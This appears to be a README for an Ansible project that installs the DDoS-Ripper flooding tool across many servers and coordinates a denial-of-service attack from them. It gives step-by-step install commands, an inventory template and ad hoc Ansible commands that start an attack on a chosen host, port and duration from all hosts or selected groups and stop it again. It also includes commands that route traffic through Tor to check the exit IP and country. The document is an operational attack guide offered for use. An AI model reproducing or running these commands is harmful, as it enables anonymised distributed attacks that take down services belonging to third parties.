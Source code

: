 **Usage:**

# 1. Install python3 and Ansible
```
sudo apt install python3 python3-pip
sudo -H pip3 install --upgrade pip
pip3 install ansible==2.9.7
```

Create ansible config file:
```
mkdir -p /etc/ansible
vim /etc/ansible/ansible.cfg

$ cat /etc/ansible/ansible.cfg
[defaults]
host_key_checking = False
callback_whitelist = profile_tasks
timeout = 300
command_warnings = False
[inventory]
[privilege_escalation]
[paramiko_connection]
[ssh_connection]
ssh_args = -C -o ControlMaster=auto -o ControlPersist=600s -o UserKnownHostsFile=/dev/null
control_path = /tmp/ansible-ssh-%%h-%%p-%%r
pipelining = True
[persistent_connection]
connect_timeout = 300
[accelerate]
[selinux]
[colors]
[diff]
```

Clone git repo:
```
mkdir -p /opt/git
cd /opt/git
git clone https://github.com/deadmopozz/ddos-ripper-ansible.git
```

# 2. Prepare inventory /opt/git/ddos-ripper-ansible/inventory/hosts:

- add your hosts as follow:
```
[all]
#Add hosts to this group
host1      ansible_host=127.0.0.1
host2      ansible_host=127.0.0.2


[all:vars]
git_repo=https://github.com/palahsu/DDoS-Ripper.git
git_dest=/tmp/ddos-ripper


[group1]
host1

[group2]
host2
```

# 3. Run installation playbook and start/stop attack:

## You must have the same username and password or ssh key for each server

## - If you use username and password for ssh authentication:
```
cd /opt/git/ddos-ripper-ansible/playbooks/initial-setup
ansible-playbook -i ../../inventory/hosts initial-setup.yml -b -kK -e ansible_user=user_name
```
### Start attack on all hosts
```
cd /opt/git/ddos-ripper-ansible/playbooks/initial-setup
ansible all -i ../../inventory/hosts -b -kK -e ansible_user=user_name -m shell -a "/tmp/ddos-ripper/ddos-ripper-start.sh <host> <port> <duration>"
```
### Start attack on one or several groups of hosts
```
cd /opt/git/ddos-ripper-ansible/playbooks/initial-setup
ansible group1,group2 -i ../../inventory/hosts -b -kK -e ansible_user=user_name -m shell -a "/tmp/ddos-ripper/ddos-ripper-start.sh <host> <port> <duration>" 
```
### Stop attack on all hosts
```
cd /opt/git/ddos-ripper-ansible/playbooks/initial-setup
ansible all -i ../../inventory/hosts -b -kK -e ansible_user=user_name -m shell -a "/tmp/ddos-ripper/ddos-ripper-stop.sh"
```

## - If you use ssh key for ssh authentication:
```
cd /opt/git/ddos-ripper-ansible/playbooks/initial-setup
ansible-playbook -i ../../inventory/hosts initial-setup.yml -b -e ansible_user=user_name ansible_ssh_private_key_file="/path/to/your/ssh.key"
```
### Start attack on all hosts
```
cd /opt/git/ddos-ripper-ansible/playbooks/initial-setup
ansible all -i ../../inventory/hosts -b -e ansible_user=user_name ansible_ssh_private_key_file="/path/to/your/ssh.key" -m shell -a "/tmp/ddos-ripper/ddos-ripper-start.sh <host> <port> <duration>"
```
### Start attack on one or several groups of hosts
```
cd /opt/git/ddos-ripper-ansible/playbooks/initial-setup
ansible group1,group2 -i ../../inventory/hosts -b -e ansible_user=user_name ansible_ssh_private_key_file="/path/to/your/ssh.key" -m shell -a "/tmp/ddos-ripper/ddos-ripper-start.sh <host> <port> <duration>" 
```
### Stop attack on all hosts
```
cd /opt/git/ddos-ripper-ansible/playbooks/initial-setup
ansible all -i ../../inventory/hosts -b -e ansible_user=user_name ansible_ssh_private_key_file="/path/to/your/ssh.key" -m shell -a "/tmp/ddos-ripper/ddos-ripper-stop.sh"
```

Useful commands:
```
Check IP:
ansible all -i ../../inventory/hosts -b -m shell -a "torsocks -P 9050 curl -s ifconfig.me"
Check Coutry:
ansible all -i ../../inventory/hosts -b -m shell -a "geoiplookup \$(torsocks -P 9050 curl -s ifconfig.me)"
```
